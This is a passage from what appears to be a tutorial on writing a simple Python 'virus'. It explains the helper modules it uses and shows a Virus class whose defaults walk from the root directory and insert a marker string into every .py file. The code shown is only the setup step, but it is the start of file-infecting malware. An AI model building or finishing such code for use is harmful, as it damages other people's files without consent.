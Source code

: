 ```
relative path: test_sub/hi.txt
```
Absolute path is necessary here as while working with numerous files you must know the exact location. Using filenames only, your script do not know where to look for that files.

### `pathlib` module
Here, we use `pathlib` to retrive the extension of a file. It can be done in multiple ways though, so you may not find this module necessary at all.

### `datetime` and `time`
`datetime` and `time` is used only for the start time of execution. If you want the script to start working right now, you may not need these modules as well. 


## Virus Class
### The initializer method
Now, lets create a virus class that accepts four arguments when it is called.

```python
class Virus:
    
    def __init__(self, infect_string=None, path=None, \
                         extension=None, target_file_list=None):
        if isinstance(infect_string, type(None)):
            self.infect_string = "I am a Virus"
        else:
            self.infect_string = infect_string
            
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(extension, type(None)):
            self.extension = ".py"
        else:
            self.extension = extension
            
        if isinstance(target_file_list, type(None)):
            self.target_file_list = []
        else:
            self.target_file_list = target_file_list
```

Here, the `infect_string` will be used to insert in a file. If the user does not provide an input, the default value is "I am a Virus". 

By default the `path` is set to be the root directory `/`. From here, it will browse all subdirectories and files. However, the user can provide a target path as well.

User can define target file `extension`. If not, the default is set to be python files `.py`.
